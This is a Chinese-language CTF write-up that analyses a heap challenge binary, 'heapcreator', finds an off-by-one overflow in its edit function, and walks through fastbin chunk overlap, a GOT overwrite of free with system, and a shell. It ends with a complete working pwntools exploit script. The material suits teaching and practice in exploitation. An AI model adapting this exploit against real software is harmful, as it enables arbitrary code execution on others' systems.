









## 0x001 程序分析

首先查看程序开启了哪些保护模式：



使用IDA对程序进行分析，程序提供了对堆的创建、编辑、删除、显示功能。

**创建**



创建用户使用的堆区之前，会先申请一个固定大小为16字节的堆区，来管理用户使用的堆区，这个堆管理区前8字节存放申请的堆空间大小，后8字节存放申请的堆区地址。而这个堆管理区地址存放在全局表heaparray中。

**编辑**



通过堆管理区中存放的地址和大小，对用户使用的堆区进行编辑。

**删除**



释放要删除的堆区以及管理区，并将全局表heaparray中相应的地址清零。

**显示**



使用printf打印用户使用的堆区内容。

## 0x002 漏洞分析

该程序在编辑功能函数中，由于输入时可以输入的字节长度比申请的堆区长度多一个字节，因此存在一字节溢出漏洞，也就是off-by-one。

## 0x003 漏洞利用

该程序需要利用off-by-one漏洞将堆管理区中存放的地址和长度修改为任意地址和长度，这样就可以修改任意函数的真实地址，控制程序执行流程。

off-by-one漏洞需要利用溢出的一个字节，修改堆块中的size字段。

首先申请三个堆块
```
create_heap(0x18, "A")        # chunk0
create_heap(0x18, "B")        # chunk1
create_heap(0x18, "C")        # chunk2
```

此时堆区内容如下：



此时可编辑chunk0，通过溢出的一个字节，将chunk1管理区的size修改为任意大小
```
payload = p64(0) * 3 + b"\x41"
edit_heap(0, payload)
```

此时堆区内容如下：



可见，已经将chunk1管理区的size由0x21修改为了0x41，那么此时系统就会认为该堆区的大小在0x41的范围内。

此时，选择删除chunk1，那么就会将chunk1管理区和chunk1放入fastbins中，由于chunk1管理区的size被修改，所以会被分配到不同大小的链表中。
```
delete_heap(1)
```

此时堆区内容如下：



可见fastbins中存在两个链，之前的chunk1管理区在0x40的链中，chunk1在0x20的链中。

此时再申请一个大小符合0x40的堆区，那么就会将之前的chunk1当作new_chunk1的管理区，chunk1管理区当作new_chunk1的用户区。
```
create_heap(0x32, "CCCC")
```

此时堆区内容如下：



由于新申请的new_chunk1的长度为0x32，因此可以通过编辑new_chunk1，修改new_chunk1管理区中存放的地址和长度。
```
payload = p64(0) + p64(0) + p64(0) + p64(0x21) + p64(32) + p64(elf.got["free"])
edit_heap(1, payload)
```

可以将先前保存在new_chunk1管理区中的地址修改为free函数的got地址，那么通过输出功能函数就可以获取free函数的真实地址，可以通过计算获得system函数的真实地址。

最后再通过编辑功能函数，编辑new_chunk1，就可以将free函数的真实地址修改为system函数的真实地址，之后再次执行free函数即可获取系统权限。

最终exp如下：
```
from pwn import *
from LibcSearcher import *

p = process("./heapcreator")
elf = ELF("heapcreator")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create_heap(heap_len, payload):
    p.sendlineafter("Your choice :", str(1))
    p.sendlineafter("Size of Heap : ", str(heap_len))
    p.sendlineafter("Content of heap:", payload)

def edit_heap(idx, payload):
    p.sendlineafter("Your choice :", str(2))
    p.sendlineafter("Index :", str(idx))
    p.sendlineafter("Content of heap : ", payload)

def show_heap(idx):
    p.sendlineafter("Your choice :", str(3))
    p.sendlineafter("Index :", str(idx))
    
def delete_heap(idx):
    p.sendlineafter("Your choice :", str(4))
    p.sendlineafter("Index :", str(idx))
    
create_heap(0x18, "A")
create_heap(0x18, "B")
create_heap(0x18, "/bin/sh\x00")

payload = p64(0) * 3 + b"\x41"
edit_heap(0, payload)
delete_heap(1)

create_heap(50, "CCCC")

payload = p64(0) + p64(0) + p64(0) + p64(0x21) + p64(32) + p64(elf.got["free"])
edit_heap(1, payload)
show_heap(1)

p.recvuntil("Content : ")
free_real_addr = u64(p.recv(6).ljust(8, b'\x00'))

libcbase = free_real_addr - libc.sym["free"]
system_addr = libcbase + libc.sym["system"]

edit_heap(1, p64(system_addr))
delete_heap(2)

p.interactive()
```